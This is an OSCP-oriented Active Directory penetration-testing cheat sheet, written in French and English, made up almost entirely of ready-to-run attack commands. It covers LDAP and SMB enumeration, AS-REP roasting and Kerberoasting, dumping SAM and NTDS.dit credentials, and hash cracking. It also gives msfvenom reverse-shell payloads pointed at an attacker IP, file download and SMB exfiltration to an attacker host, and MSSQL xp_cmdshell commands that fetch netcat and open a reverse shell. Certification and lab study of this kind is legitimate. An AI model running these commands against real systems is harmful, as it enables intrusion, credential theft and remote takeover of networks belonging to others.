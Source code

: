 # 🏅 OSCP Active Directory Cheat Sheet

{% hint style="success" %}
Ce document regroupe tout ce que j’ai appris au travers des box et des cours de préparation aux techniques d’exploitation Active Directory. Il reflète mon expérience personnelle et n’engage que moi. Je ne couvre pas ici les techniques les plus avancées, mais vous pouvez vous tourner vers d’autres ressources comme [The Hacker Recipes](https://www.thehacker.recipes/) pour approfondir le sujet.
{% endhint %}

***

## **🛡️ Active Directory Cheat Sheet**

### 📌 Reconnaissance & Énumération

<details>

<summary>🔍LDAP <strong>Enumeration</strong></summary>

*   **Énumération LDAP anonyme**

    ```bash
    ldapsearch -v -x -b "DC=<DOMAIN>,DC=com" -H "ldap://<IP>" "(objectclass=*)"
    ```
*   **Énumération LDAP auth (LAPS Password)**

    ```bash
    ldapsearch -x -H "ldap://<IP>" -D "<DOMAIN>\<USER>" -w "<PASSWORD>" -b "DC=<DOMAIN>,DC=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    ```
*   **Énumération with Windapsearch**

    ```bash
    ./windapsearch.py --dc-ip <IP> -u "" -U
    ```
*   **Extraction of users and descriptions via NetExec**

    ```bash
    #users
    nxc ldap $ip -u $user -p $password --users
    #desc
    nxc ldap "<DC>" -d "<DOMAIN>" -u "<USER>" -p "<PASSWORD>" -M get-desc
    ```
*   **Testing if an account exists without kerberos protocol**

    ```bash
    nxc ldap 192.168.1.0/24 -u users.txt -p '' -k
    #mode 18200 hashcat
    ```
*   **Asreproasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
    ```
*   **Kerberoasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
    #mode 13100 hashcat
    ```
*   **Bloodhound collector**

    ```bash
    nxc ldap <ip> -u user -p pass --bloodhound --collection All
    ```

Rest later

</details>

<details>

<summary>📂 SMB Enumeration</summary>

*   **List SMB Shares**

    ```bash
    crackmapexec smb <IP> --shares -u <USER> -p <PASSWORD>
    ```
*   **Brute force RID for user enumeration**

    ```bash
    nxc smb <IP> -u '' -p '' --rid-brut
    ```
*   **List SMB shares anonymous**

    ```bash
    smbclient -L //<IP> -N
    ```
*   **Dumping all files in the share**

    ```bash
    nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
    ```
*   **Dump SAM with admin privileges (--local-auth possible)**

    ```bash
    nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
    ```
*   **Dump NTDS.dit with DomainAdmin or Local Admin**

    ```bash
    nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
    ```

There are plenty of Credentials discovery commands, no need to put everything, commands here: [https://www.netexec.wiki/smb-protocol/obtaining-credentials](https://www.netexec.wiki/smb-protocol/obtaining-credentials)

</details>

####

#### 🎯 **Droits Windows (Privilege Escalation)**

* **SeBackupPrivilege** → Lire des fichiers normalement inaccessibles
* **SeRestorePrivilege** → Écraser des fichiers protégés
* **SeImpersonatePrivilege** → Exploitable avec JuicyPotato pour devenir SYSTEM
* **SeLoadDriverPrivilege** → Charger des drivers malveillants

***

### 💥 Cracking des Hashes

*   **NTLM**

    ```bash
    hashcat -m 1000 -a 3 hash.txt
    ```
*   **NetNTLMv1**

    ```bash
    hashcat -m 5500 -a 3 hash.txt
    ```
*   **NetNTLMv2**

    ```bash
    john --format=netntlmv2 hash.txt
    ```
*   **SPN Hash (Kerberoasting)**

    ```bash
    hashcat -m 13100 -a 0 spn.txt rockyou.txt
    ```

***

### 🚀 Payloads & Reverse Shells

*   **Windows Meterpreter**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **Windows Shell Staged**

    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **PowerShell Reverse Shell**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ATTACKER_IP> LPORT=<PORT> -f psh-cmd
    ```

***

### 🔄 Transfert de Fichiers

*   **Serveur HTTP Python**

    ```bash
    python3 -m http.server 80
    ```
*   **Télécharger un fichier via PowerShell**

    ```powershell
    powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>/file.exe' -OutFile 'C:\Users\Public\file.exe'"
    ```
*   **Exfiltration via SMB**

    ```bash
    smbclient //<ATTACKER_IP>/SHARE -U "USER" -c "put file.exe"
    ```

***

### 🏴‍☠️ Post-Exploitation

*   **Changement du mot de passe via RPC**

    ```bash
    setuserinfo <USER> 23 'NewPassword123!'
    ```
*   **Utilisation d’un ticket Kerberos pour MSSQL**

    ```bash
    export KRB5CCNAME=$PWD/Administrator.ccache
    ```
*   **Téléchargement de Netcat via MSSQL**

    ```bash
    xp_cmdshell "curl http://<ATTACKER_IP>/nc.exe -o c:\temp\nc.exe"
    ```
*   **Reverse Shell via MSSQL**

    ```bash
    xp_cmdshell "c:\temp\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe"
    ```
